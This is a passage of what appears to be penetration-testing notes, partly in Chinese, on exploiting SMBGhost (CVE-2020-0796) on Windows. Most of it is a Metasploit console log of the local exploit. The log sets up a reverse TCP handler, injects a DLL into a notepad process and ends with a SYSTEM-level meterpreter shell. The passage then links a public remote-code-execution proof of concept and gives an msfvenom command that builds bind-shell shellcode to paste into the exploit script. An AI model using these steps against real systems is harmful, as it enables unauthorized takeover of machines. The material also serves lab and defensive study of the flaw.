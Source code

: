```

msf6 exploit(windows/local/cve_2020_0796_smbghost) > set session 2
session => 2
msf6 exploit(windows/local/cve_2020_0796_smbghost) > check 
[*] The target appears to be vulnerable.
msf6 exploit(windows/local/cve_2020_0796_smbghost) > exploit 

[*] Started reverse TCP handler on 192.168.142.19:4444 
[*] Executing automatic check (disable AutoCheck to override)
[+] The target appears to be vulnerable.
[*] Launching notepad to host the exploit...
[+] Process 908 launched.
[*] Reflectively injecting the exploit DLL into 908...
[*] Injecting exploit into 908...
[*] Exploit injected. Injecting payload into 908...
[*] Payload injected. Executing exploit...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Sending stage (200262 bytes) to 192.168.142.61

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM

```

### CVE-2020-0796 RCE EXP

[Github CVE-2020-0796 RCE EXP](https://github.com/chompie1337/SMBGhost_RCE_PoC)

msfvenom生成reversed shellcode

```
msfvenom -p windows/x64/meterpreter/bind_tcp lport=2333 -f py -o exp.py
```

将生成exp.py中的shellcode替换exploit.py中的shellcode

![](image/windows-22.png)
